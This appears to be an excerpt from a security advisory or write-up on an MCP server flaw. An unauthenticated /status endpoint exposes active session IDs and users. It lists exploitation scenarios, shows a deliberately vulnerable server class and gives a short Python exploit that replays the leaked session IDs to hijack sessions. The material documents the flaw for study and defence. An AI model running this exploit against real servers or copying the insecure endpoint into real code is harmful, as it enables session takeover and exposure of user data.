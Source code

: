 ### Exploitation Scenarios
1. **Unscoped Endpoint Access**: Attacker identifies unscoped endpoints
2. **Authentication Bypass**: Attacker accesses protected resources without authentication
3. **Session Enumeration**: Attacker enumerates active user sessions
4. **Session Takeover**: Attacker hijacks legitimate user sessions

## Proof of Concept

### Vulnerable Endpoint Pattern
```python
# Vulnerable MCP server implementation
class VulnerableMCPServer:
    def __init__(self):
        self.active_sessions = {}
        self.authenticated_users = set()
    
    def handle_request(self, request):
        endpoint = request.get('endpoint')
        
        # Vulnerable: some endpoints bypass authentication
        if endpoint in ['/health', '/status', '/metrics']:
            return self.handle_unscoped_endpoint(request)
        
        # Authentication required for other endpoints
        if not self.is_authenticated(request):
            return {"error": "Authentication required"}
        
        return self.handle_authenticated_request(request)
    
    def handle_unscoped_endpoint(self, request):
        # Vulnerable: exposes sensitive information
        if request.get('endpoint') == '/status':
            return {
                "status": "active",
                "active_sessions": list(self.active_sessions.keys()),
                "authenticated_users": list(self.authenticated_users)
            }
```

### Exploit Payload
```python
# Session hijacking exploit
def exploit_session_hijacking(target_server):
    # Step 1: Access unscoped endpoint to get session info
    status_response = requests.get(f"{target_server}/status")
    active_sessions = status_response.json()["active_sessions"]
    
    # Step 2: Attempt to hijack sessions
    for session_id in active_sessions:
        hijack_response = requests.post(
            f"{target_server}/api/tools",
            headers={"X-Session-ID": session_id},
            json={"action": "list_tools"}
        )
        
        if hijack_response.status_code == 200:
            print(f"Successfully hijacked session: {session_id}")
            return session_id
    
    return None
```
